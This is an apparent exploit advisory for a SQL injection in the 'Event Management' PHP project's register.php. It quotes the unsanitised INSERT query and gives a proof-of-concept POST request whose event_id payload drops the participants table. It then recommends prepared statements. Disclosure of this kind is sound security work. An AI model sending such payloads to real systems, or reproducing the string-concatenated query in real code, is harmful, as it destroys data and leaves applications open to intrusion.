 ## Exploit Title: Event Management - SQL Injection
## Application: Event Management
## Date: 19.02.2024
## Bugs: SQL Injection 
## Exploit Author: SoSPiro
## Vendor Homepage: https://github.com/PuneethReddyHC
## Software Link: https://github.com/PuneethReddyHC/event-management
## Version:1.0
## Attack Type: Remote
## Tested on: Windows 10 64 bit Wampserver 


### About project:

helps to register an users for on events conducted in college fests with simple logic with secured way



### Vulnerability Details:

- **Application Name**: Event Management
- **Software Link**: [Download Link](https://github.com/PuneethReddyHC/event-management)
- **Vendor Homepage**: [Vendor Homepage](https://github.com/PuneethReddyHC)



### Vulnerable code section:

### https://github.com/PuneethReddyHC/event-management/blob/master/backend/register.php#L64

<?php


// ... (other code)

if(empty($full_name)  || empty($email)  || empty($mobile)) {
    // Error messages and actions for incomplete data
} else {
    if(!preg_match($name,$full_name)){
        // Error messages and actions for invalid full name
    }

    // Additional regex checks for email and mobile format

    // Verifying mobile number length
    if(!(strlen($mobile) == 10)){
        // Error message and action for invalid mobile number length
    }

    // Database insertion operation
    $sql = "INSERT INTO `participants` 
            (`p_id`,`event_id`, `fullname`, `email`, 
             `mobile`,  `college`, `branch`) 
            VALUES (NULL,'$event_id', '$full_name',  '$email', 
             '$mobile', '$college', '$branch')";
            
    if(mysqli_query($con,$sql)){
        // Successful registration message
        echo "register_success";
        echo "<script> location.href='index.php'; </script>";
        exit;
    }
}

// ... (other code)
?>



### Vulnerability Description:

The code in register.php is vulnerable to SQL injection, allowing an attacker to manipulate the SQL query and potentially perform unauthorized actions on the database. Additionally, the code lacks proper input validation and sanitization, making it susceptible to various forms of attacks such as cross-site scripting (XSS) and potential security risks.



### Proof of Concept (PoC):

SQL Injection:

The vulnerability can be exploited by an attacker by manipulating the input parameters. For example, the event_id parameter is directly used in the SQL query without proper validation or parameterization:

An attacker can manipulate the event_id parameter in the HTTP request to inject malicious SQL code.

PoC:


POST /event-management-master/backend/register.php HTTP/1.1
Host: localhost

event_id=1'; DROP TABLE participants; --

This could result in a SQL query like:

INSERT INTO `participants` (`p_id`,`event_id`, `fullname`, `email`, `mobile`,  `college`, `branch`) 
VALUES (NULL,'1'; DROP TABLE participants; --', 'test', 'test@gmail.com', '0555555555', 'asd', 'qwe')

To mitigate this, use prepared statements or parameterized queries to ensure proper sanitization of user inputs.

